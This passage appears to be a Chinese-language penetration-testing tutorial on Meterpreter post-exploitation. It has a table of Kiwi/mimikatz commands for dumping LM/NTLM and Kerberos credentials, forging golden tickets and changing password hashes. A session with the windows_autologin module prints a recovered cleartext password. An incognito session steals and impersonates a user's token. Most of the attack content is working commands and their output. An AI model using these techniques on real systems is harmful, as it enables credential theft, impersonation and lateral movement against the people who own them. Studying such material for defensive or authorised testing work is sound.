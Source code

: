 | 命令                  | 简述                                                              |
| --------------------- | ----------------------------------------------------------------- |
| creds_all             | 检索所有凭据                                                      |
| creds_livessp         | 检索实时 SSP 凭证（查看当前使用的凭据）                           |
| creds_msv             | 检索 LM/NTLM 凭证                                                 |
| creds_kerberos        | 检索 Kerberos 凭证                                                |
| kerberos_ticket_list  | 列出所有 kerberos 票证                                            |
| kerberos_ticket_purge | 清除任何正在使用的 kerberos 票证                                  |
| kerberos_ticket_use   | 使用 kerberos 票证                                                |
| golden_ticket_create  | 创建一个黄金 kerberos 票证                                        |
| password_change       | 更改用户的密码/哈希                                               |
| kiwi_cmd              | 后面接 mimikatz 中的命令（如：kiwi_cmd sekurlsa::logonpasswords） |
| ......                | ......                                                            |

#### Windows Autologon

很多用户习惯将计算机设置自动登录，可以使用 msf 抓取自动登录的用户名和密码。

```console
meterpreter > run post/windows/gather/credentials/windows_autologin

[*] Running against WIN2019 on session 1
[+] AutoAdminLogon=1, DefaultDomain=xiaorang.lab, DefaultUser=yuxuan, DefaultPassword=Yuxuan7QbrgZ3L
meterpreter >
```

> 该模块提取注册表中的纯文本 Windows 用户登录密码。 它利用 Windows 的一个特性，Windows (2000 - 2008 R2) 允许用户或第三方 Windows 实用工具通过纯文本密码插入在注册表位置 `HKLM\Software\Microsoft\Windows NT\WinLogon` 的 (Alt)DefaultPassword 字段中配置用户自动登录。该注册表字段所有用户都可读。

### 令牌窃取 & 进程迁移

使用 incognito 模块窃取 token：

```console
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
DESKTOP-TEST\test
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "DESKTOP-TEST\test"
[+] Delegation token available
[+] Successfully impersonated user DESKTOP-TEST\test
meterpreter > getuid
Server username: DESKTOP-TEST\test

meterpreter > rev2self
meterpreter > getuid
```